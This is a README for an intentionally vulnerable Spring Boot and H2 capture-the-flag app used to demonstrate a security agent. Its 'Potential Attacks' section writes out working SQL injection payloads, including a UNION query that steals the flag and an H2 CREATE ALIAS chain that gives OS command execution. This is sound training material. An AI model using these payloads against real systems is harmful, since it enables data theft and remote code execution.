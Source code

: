 # SQL CTF

## Setup

To run you will need
* Java 11 to build
* Docker
* contrast_security.yaml
* Contrast agent jar.

This will run two web applications on port 8080 and 8081.
App with Protect and Assess is on port 8080.
App with only Assess is on port 8081.
To access go to http://localhost:8080 ( Protect & Assess ) or http://localhost:8081 ( Assess )

Modify the contrast_security.yaml and contrast_security_with_protect.yaml files to point to your Teamserver and add credentials.
Download a contrast agent jar file and place it under
contrast/ directory and name it contrast.jar e.g
contrast/contrast.jar

## Run

To run. 
./run.sh
Then enter the flag text. This will be embeded into the TBL_SECRET of the application running with protect. The attacker needs to retrieve this to win the game.
The flag of the application not running assess will always be CONTRAST-CAT.


## Application

The application is a simple Spring Boot application with two endpoints.
http://localhost:8080/getFirstNames
which returns a list of the first names from the database
http://localhost:8080/getEmail?firstName=XXX
Which when given a first name will return the email associated with it.
There is a web page under http://localhost:8080
Which builds up the user table shown by first calling the 
/getFirstNames endpoint. Then for each name found, calls the /getEmails endpoint.
This should be enough to signpost the location of the vulnerable endpoint. ( It is visible in the browser developer console )



## Database

The database is an in memory H2 database. All changes made are lost when the application is killed and restarted, so any attacker's modifications will not persist after restart.
If you want to modify the existing data, edit the data.sql or schema.sql files.
The database consists of two tables :

TBL_USERS contains user information first/last name, email.

TBL_SECRET contains a single field called "flag".
This is the CTF flag that the attacker needs to retrieve to win.


## Potential Attacks

The application is running the latest version of Spring. It "should" be only vulnerable to a SQL Injection attack against the
/getEmail endpoint.
Potential attacks include.
**' OR 1 = 1--**

`/getEmail?firstName=%27%20OR%201%20%3D%201--`

Which returns all email addresses in email table concatenated together.

### A union statement to retrieve the secret

**' UNION SELECT flag FROM TBL_SECRET--**

`/getEmail?firstName=%27%20UNION%20SELECT%20flag%20FROM%20TBL_SECRET--
`
This should only be possible on the application that doesn't have protect enabled. But it will be flagged by assess.

### SQL Injection to RCE 

A more interesting attack is to leverage the ALIAS functionality in the H2 database to get remote code execution.
First
You need to create a ALIAS function in the database
**' CREATE ALIAS EXEC AS CONCAT('void e(String cmd) throws java.io.IOException',
HEXTORAW('007b'),'java.lang.Runtime rt= java.lang.Runtime.getRuntime();
rt.exec(cmd);',HEXTORAW('007d'));--** 

Which is

`/getEmail?firstName=%27%20CREATE%20ALIAS%20EXEC%20AS%20CONCAT%28%27void%20e%28String%20cmd%29%20throws%20java.io.IOException%27%2C%0A%20%20%20%20%20%20HEXTORAW%28%27007b%27%29%2C%27java.lang.Runtime%20rt%3D%20java.lang.Runtime.getRuntime%28%29%3B%0A%20%20%20%20%20%20rt.exec%28cmd%29%3B%27%2CHEXTORAW%28%27007d%27%29%29%3B--%20
`

This creates a function named EXEC()

Then call it using

**'; CALL EXEC('touch /tmp/blablabla');--**

`/getEmail?firstName=%27%3B%20CALL%20EXEC%28%27touch%20%2Ftmp%2Fblablabla%27%29%3B--%20
`

You only need to call the first part of the attack once to create the exec() function. Once that is done the second command can be used to execute the code which in turn executes a command.
The actual command used can of course be modified.
When the above attack is run, Assess will show both SQL Injection and OS command injection vulnerabilities.


